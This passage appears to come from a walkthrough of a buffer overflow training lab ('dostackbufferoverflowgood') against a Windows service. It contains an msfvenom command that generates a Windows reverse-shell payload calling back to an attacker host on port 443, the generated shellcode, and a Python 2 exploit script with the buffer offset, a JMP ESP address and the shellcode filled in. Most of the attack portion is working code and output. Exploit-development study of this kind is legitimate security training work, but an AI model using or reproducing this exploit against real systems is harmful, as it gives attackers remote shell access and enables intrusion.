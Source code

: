 ```python

except:
    print "\n Could not connect"
```

```bash
luc@kali:~/dostackbufferoverflowgood$ python2 calc.py
```

Running `calc.py` opens the calculator on our Windows machine. We've confirmed that we can run `msfvenom` payloads via our buffer overflow.

## Exploit reverse shell

```bash
luc@kali:~/dostackbufferoverflowgood$ msfvenom -p windows/shell_reverse_tcp -b '\x00\x0a' -f python --var-name shellcode EXITFUNC=thread LHOST=192.168.10.21 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
...
shellcode =  b""
shellcode += b"\xdd\xc5\xba\x64\xc9\xbf\xf9\xd9\x74\x24\xf4"
shellcode += b"\x58\x31\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04"
...
shellcode += b"\xde\x18\xa7\x24\x5d\xa8\x58\xd3\x7d\xd9\x5d"
shellcode += b"\x9f\x39\x32\x2c\xb0\xaf\x34\x83\xb1\xe5"
```

```python
#!/usr/bin/python2
import socket
import struct

try:
    print "\nSending evil buffer..."

    bufferSize = 2000
    offset = 146

    jmp_esp = 0x080414c3

    shellcode =  b""
    shellcode += b"\xdd\xc5\xba\x64\xc9\xbf\xf9\xd9\x74\x24\xf4"
    shellcode += b"\x58\x31\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04"
    shellcode += b"\x03\x34\xda\x5d\x0c\x48\x34\x23\xef\xb0\xc5"
    shellcode += b"\x44\x79\x55\xf4\x44\x1d\x1e\xa7\x74\x55\x72"
    shellcode += b"\x44\xfe\x3b\x66\xdf\x72\x94\x89\x68\x38\xc2"
    shellcode += b"\xa4\x69\x11\x36\xa7\xe9\x68\x6b\x07\xd3\xa2"
    shellcode += b"\x7e\x46\x14\xde\x73\x1a\xcd\x94\x26\x8a\x7a"
    shellcode += b"\xe0\xfa\x21\x30\xe4\x7a\xd6\x81\x07\xaa\x49"
    shellcode += b"\x99\x51\x6c\x68\x4e\xea\x25\x72\x93\xd7\xfc"
    shellcode += b"\x09\x67\xa3\xfe\xdb\xb9\x4c\xac\x22\x76\xbf"
    shellcode += b"\xac\x63\xb1\x20\xdb\x9d\xc1\xdd\xdc\x5a\xbb"
    shellcode += b"\x39\x68\x78\x1b\xc9\xca\xa4\x9d\x1e\x8c\x2f"
    shellcode += b"\x91\xeb\xda\x77\xb6\xea\x0f\x0c\xc2\x67\xae"
    shellcode += b"\xc2\x42\x33\x95\xc6\x0f\xe7\xb4\x5f\xea\x46"
    shellcode += b"\xc8\xbf\x55\x36\x6c\xb4\x78\x23\x1d\x97\x14"
    shellcode += b"\x80\x2c\x27\xe5\x8e\x27\x54\xd7\x11\x9c\xf2"
    shellcode += b"\x5b\xd9\x3a\x05\x9b\xf0\xfb\x99\x62\xfb\xfb"
    shellcode += b"\xb0\xa0\xaf\xab\xaa\x01\xd0\x27\x2a\xad\x05"
    shellcode += b"\xe7\x7a\x01\xf6\x48\x2a\xe1\xa6\x20\x20\xee"
    shellcode += b"\x99\x51\x4b\x24\xb2\xf8\xb6\xaf\x7d\x54\xb2"
    shellcode += b"\x3a\x16\xa7\xc2\x45\x5d\x2e\x24\x2f\xb1\x67"
    shellcode += b"\xff\xd8\x28\x22\x8b\x79\xb4\xf8\xf6\xba\x3e"
    shellcode += b"\x0f\x07\x74\xb7\x7a\x1b\xe1\x37\x31\x41\xa4"
```